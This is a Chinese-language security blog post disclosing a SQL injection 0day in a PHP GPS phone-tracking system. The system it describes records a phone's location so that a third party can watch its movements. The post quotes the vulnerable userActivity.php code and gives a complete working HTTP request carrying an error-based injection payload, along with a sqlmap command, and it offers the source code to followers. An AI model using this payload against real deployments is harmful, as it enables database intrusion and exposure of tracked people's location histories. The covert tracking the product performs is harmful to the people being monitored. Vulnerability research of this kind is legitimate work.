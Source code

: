 #  某GPS定位系统存在前台SQL注入漏洞   
原创 星悦  星悦安全   2025-04-25 04:26  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**手机端强制打开GPS，每3分钟（可调）获取一次所在经纬度，如果位置变化距离超过100米（可调），**  
  
**则提交给后台的PHP。然后后台把得到的数据保存到数据库，再通过前面的百度地图API绘制出轨迹和显示驻留时间。**  
  
**安卓端安装好后，设置开机自启并打开相应的权限，手机会弹出一个ID，**  
  
**拿着ID到后台地址监控页就可以随时查看手机的活动轨迹了。**  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dnZSXYJVCXqcq3sHGQ1LUaJ9AdjvR7PXaS2P1iao8HOxnnHSS2qlMNs0wX5kZibIicrtXG60hG6Jn1A/640?wx_fmt=other&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
**位于 /userActivity.php 中通过 POST 传入 type 及 getUserLocation 参数，且未加过滤，直接带入SQL查询字句中，导致漏洞产生.**  
  
****  
```
if ($type == 'getUserLocation') {
    $aid = $_POST['aid'];
    $aid = preg_replace('/\|/', "','", $aid);
    $rs = mysqli_query($conn, "SELECT * FROM `user_location` WHERE  `aid` IN ('$aid')  ORDER BY id DESC LIMIT 5");
    $out = array();
    while ($row = mysqli_fetch_object($rs)) {
        $out[] = $row;
    }
}

```  
  
  
Payload:  
  
```
POST /userActivity.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 227
Content-Type: application/x-www-form-urlencoded
Cookie: Hm_lvt_d3b3b1b968a56124689d1366adeacf8f=1731328644; _ga=GA1.1.2095806093.1731475984; Hm_lvt_22fbf4ec0601742141df7f652a137a5c=1731635709; Hm_lvt_ddf174778b49d80ad4f7dc54a908a39f=1732349704; su_webp=1; wp-settings-1=libraryContent%3Dbrowse; wp-settings-time-1=1734361867
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

type=getUserLocation&aid=') OR (SELECT 1085 FROM(SELECT COUNT(*),CONCAT((SELECT (USER())),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND ('UGwc'='UGwc

```  
  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dnZSXYJVCXqcq3sHGQ1LUaFJwXk8JR5JAIKBRqsVsmzc2f7ia0KVLujrDSbwqxibibibFiaQgicSREeOeg/640?wx_fmt=other&from=appmsg "")  
  
```
Python sqlmap.py -r a.txt

```  
  
  
********## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
  
**GPS源码关注公众号，发送 250425 获取!**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
